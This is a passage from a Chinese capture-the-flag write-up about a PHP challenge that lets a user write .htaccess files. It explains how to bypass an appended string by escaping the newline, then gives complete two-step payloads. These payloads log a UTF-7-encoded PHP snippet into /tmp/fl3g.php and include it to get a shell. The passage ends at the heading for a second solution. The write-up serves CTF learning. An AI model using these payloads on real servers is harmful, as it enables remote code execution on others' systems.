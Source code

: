 代码逻辑：当每次打开index.php时，先删除当前目录下的所有文件，然后进行文件包含，和传参检验，对filename和content的内容进行检测，最后把传入的内容加上`"\nJust one chance"`，写入文件，.htaccess的文件内容要求还是比较严格的，如果最后一行写入了Just one chance，那么就会直接500了，所以说先要bypass掉这个字符串，才能接着往下做，这里的bypass手法是利用`\`这个字符去转义换行符，类似于shell的拼接方式，可实现字符串的连接，效果如下

![mjnNiF.png](https://s2.ax1x.com/2019/08/30/mjnNiF.png)



成功实现字符连接，通过htaccess实现xss。

现在既然能成功规避掉这个这个字符串也就意味着可以成功控制htaccess的内容了，官方wp给出三种解来通过htaccess去getshell。

#### 第一种预期解

这个解法就比较好的解释的了`include('fl3g.php')`这个地方，因为当时在getshell后其实也没有发现这个include的作用，赛后看到这个预期解才明白。

首先第一步设置如下

```php
php_value error_log /tmp/fl3g.php
php_value error_reporting 32767
php_value include_path "%2bADw?php phpinfo();%2bADs %2bAF8AXw-halt%2bAF8-compiler()%2bADs"
# \
```

首先设置报错信息储存在/tmp/fl3g.php，设置报错级别为32767(报告所有的可能出现的错误)，设置报错路径为不存在的路径，实际是我们的经过utf7编码后的shell语句，用utf7编码的原因是写入error.log的内容会被html编码，这里采用utf7编码即可绕过。

第二步设置

```php
php_value include_path "/tmp"
php_value zend.multibyte 1  //检测文件是否具有Unicode内容
php_value zend.script_encoding "UTF-7"
# \
```

这里新生成的htaccess首先设置了文件包含路径为/tmp，这样我们包含fl3g.php，其实包含的就是/tmp/fl3g.php，并且通过下面两个设置成功进行内容解码，就把我们的shell语句成功包含到index.php了

最终两步payload如下

第一步

```php
?content=php_value error_log /tmp/fl3g.php%0aphp_value error_reporting 32767%0aphp_value include_path "%2bADw?php phpinfo();%2bADs %2bAF8AXw-halt%2bAF8-compiler()%2bADs"%0a%23 \&filename=.htaccess
```

第二步打两次拿可getshell(第一次生成新的配置文件，第二次在配置文件的作用下即可包含shell语句)

```php
?content=php_value include_path "/tmp"%0aphp_value zend.multibyte 1%0aphp_value zend.script_encoding "UTF-7"%0a%23 \&filename=.htaccess
```

![mjJ27j.png](https://s2.ax1x.com/2019/08/30/mjJ27j.png)

#### 第二种解法
